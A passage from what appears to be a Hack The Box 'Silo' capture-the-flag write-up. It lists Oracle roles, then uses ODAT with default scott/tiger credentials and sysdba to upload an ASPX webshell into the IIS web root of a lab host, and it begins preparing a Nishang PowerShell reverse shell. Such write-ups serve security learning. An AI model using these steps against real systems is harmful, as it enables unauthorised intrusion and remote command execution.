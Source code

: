 ```bash
SYS			       HS_ADMIN_EXECUTE_ROLE	      YES YES NO
SYS			       HS_ADMIN_ROLE		      YES YES NO
SYS			       HS_ADMIN_SELECT_ROLE	      YES YES NO
SYS			       IMP_FULL_DATABASE	      YES YES NO
SYS			       LOGSTDBY_ADMINISTRATOR	      YES YES NO
SYS			       OEM_ADVISOR		      YES YES NO
SYS			       OEM_MONITOR		      YES YES NO

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       PLUSTRACE		      YES YES NO
SYS			       RECOVERY_CATALOG_OWNER	      YES YES NO
SYS			       RESOURCE 		      YES YES NO
SYS			       SCHEDULER_ADMIN		      YES YES NO
SYS			       SELECT_CATALOG_ROLE	      YES YES NO
SYS			       XDBADMIN 		      YES YES NO
SYS			       XDB_SET_INVOKER		      YES YES NO
SYS			       XDB_WEBSERVICES		      YES YES NO
SYS			       XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS			       XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.
```

## Getting WebShell

We can read and Write Files to the box. If you look at ODAT Github [image](https://github.com/quentinhardy/odat/blob/master-python3/pictures/ODAT_main_features_v2.0.jpg) it tells us which to use to upload a file. And I also mentioned `--sysdba` just to give some privileges.

```bash
root@kali:/opt/odat# python3 odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot 0xw0lf.aspx /usr/share/webshells/aspx/cmdasp.aspx
odat.py:52: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp

[1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot folder like 0xw0lf.aspx on the 10.10.10.82 server
[+] The /usr/share/webshells/aspx/cmdasp.aspx file was created on the C:\inetpub\wwwroot directory on the 10.10.10.82 server like the 0xw0lf.aspx file
```

Its working, time to get shell

![Untitled](/img/htb-silo/Untitled%202.png)

I used [Nishang](https://github.com/samratashok/nishang)

> Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choosed `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.
